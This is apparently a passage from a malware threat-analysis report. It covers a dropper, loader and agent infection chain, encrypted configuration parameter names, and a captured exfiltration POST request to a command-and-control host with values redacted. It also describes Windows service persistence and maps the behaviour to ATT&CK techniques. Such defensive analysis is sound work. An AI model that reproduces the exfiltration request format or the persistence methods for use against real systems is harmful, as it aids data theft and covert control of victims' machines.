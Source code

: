 dbnew
contentname
newpass
passdb
data_src
server_login
table_data
token_name
server_page
targetlogin

So, during the exfiltration phase, the HTTP requests appear as reported in the table below
 




POST /sport/latest.php HTTP/1.1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko Host: newshealthsport. com Content-Length: 170 Connection: Keep-Alive   newpass=[redacted]&server_page=[redacted]&passdb=[redacted]&targetlogin=t&table_data=[redacted]  




 
All the values embedded into the request are encrypted, probably using one of the keys embedded into the previous configuration. The algorithm used during the encryption phase is most probably a custom one.
Below, we report a simple scheme of the described infection chain, highlighting the three components of this new threat: the dropper, the loader and the agent.
 

 
Persistence
As mentioned above, the malware is able to create services or tasks or to add registry keys to achieve persistence. In the analyzed case, the loader component is set to create a new Windows service, specifying its path location as ImagePath.
 
ATT&CK Matrix
 




Technique
Tactic
Description


T1204
Execution
Threat actor relies upon specific actions by a user in order to gain execution


T1060
Persistence
Threat actor adds an entry to the “run keys” in the Registry or startup folder to allow the program will be executed when a user logs in


T1053
Persistence
Threat actor uses Windows Task Scheduler to schedule programs or scripts to be executed at a date and time
